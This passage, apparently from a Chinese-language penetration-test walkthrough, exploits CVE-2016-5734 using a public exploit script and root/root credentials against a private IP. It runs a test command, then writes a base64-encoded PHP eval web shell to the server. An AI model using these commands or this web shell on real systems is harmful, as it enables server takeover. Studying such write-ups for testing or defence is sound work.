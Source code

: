 从后台可以看出版本为 4.4.15.6，这个版本存在远程代码执行漏洞 CVE-2016-5734，既然已经知道账号和密码，就可以执行利用这个漏洞执行命令了  
EXP 地址：[https://www.exploit-db.com/exploits/40185](https://www.exploit-db.com/exploits/40185)  
执行命令：

```php
python exp.py -u root --pwd="root" http://10.255.200.23:8080 -c "system('whoami');"
```

![图片.png](assets/1698900855-b0cd7a1434a5287c8e7549564abb9fc0.png)

写入 webshell：

```php
python exp.py -u root --pwd="root" http://10.255.200.23:8080 -c "file\_put\_contents('shell.php',base64\_decode('PD9waHAgZXZhbCgkX1JFUVVFU1RbbWRybWRyXSk7Pz4='));"
```

![图片.png](assets/1698900855-8d078df36655b07c6552d98da13fc90e.png)

连接 webshell:

![图片.png](assets/1698900855-7f4703a5f8f912eaee6936bea8eed408.png)
